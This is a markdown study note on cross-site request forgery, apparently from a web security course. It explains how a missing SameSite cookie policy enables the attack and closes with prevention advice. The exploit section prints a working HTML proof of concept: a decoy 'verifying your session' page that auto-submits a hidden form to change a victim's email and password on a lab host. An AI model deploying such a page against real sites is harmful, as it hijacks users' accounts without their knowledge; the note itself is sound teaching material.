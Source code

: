 # 06.csrf

12/05/25

## Recall

- What is CSRF (Cross-Site Request Forgery)?
- How does it abuse a victim’s authenticated session?
- What conditions make CSRF possible?
- What are common targets in CSRF attacks?

## Notes

### What it is

**CSRF (Cross-Site Request Forgery)** is a web vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by **tricking the user’s browser into sending a forged request** to the target application. Since the browser automatically includes session cookies with requests, the forged request is processed as if it came from the legitimate user.

CSRF attacks typically rely on poor session cookie configurations, such as missing or misused `SameSite` attributes, and require **social engineering** to lure the victim into executing the malicious request — often by hosting the payload on a website controlled by the attacker.

### How to identify it

 identify a CSRF vulnerability, the first step is to inspect how the application handles session cookies. If the `SameSite` attribute is missing or set to ****`None`, the browser will send the session cookie even on cross-site requests — which makes the attack possible.

![image.png](images/08.01.samesite-policy-misconfig.png)

In this example, the session cookie has `SameSite=None`, which means it can be sent along with cross-origin requests, even from an attacker-controlled domain.

### How to exploit it

After confirming the vulnerability, the attacker looks for sensitive actions that can be triggered via authenticated requests — such as **changing a user’s password** or **modifying profile settings**.

Once the endpoint and request format are understood:

![image.png](images/08.02.understanding-the-request.png)

…the attacker can craft a malicious HTML page that silently sends the same request when a victim loads the page:

```bash
<!DOCTYPE html>
<html lang="en">
	<head>  
		<meta charset="UTF-8">  
		<title>Loading...</title>  
		<style>    
			body {      
				font-family: sans-serif;      
				background-color: #f4f4f4;      
				text-align: center;      
				padding-top: 100px;      
				color: #444;    
			}    
			.loader {      
				font-size: 1.2rem;    
			}  
		</style>
	</head>	
	<body>  
		<h1>Connecting to secure server...</h1>  
		<p class="loader">Please wait while we verify your session.</p>
    <form action="http://10.10.0.4/index.php?action=update" method="POST" id="csrf-form">      
			<input type="hidden" name="email" value="guest@guest.com">      
		  <input type="hidden" name="password" value="123">    
	  </form>
	  
  <script>    
	  document.getElementById('csrf-form').submit();  
	 </script>
	</body>
</html>
```

By hosting this page and luring the victim into visiting it, the attacker can silently force a password change request using the victim’s session — effectively taking control of their account.

## Summary

CSRF is a vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by forging a request and leveraging the browser’s automatic behavior of including session cookies. The attack relies on poor cookie configurations (especially the lack of a proper `SameSite` policy) and social engineering to trigger the action. When successful, the attacker can change account settings, transfer funds, or perform other critical operations without the victim's awareness. Preventing CSRF involves enforcing strict SameSite policies, validating request origins, and using anti-CSRF tokens for sensitive operations.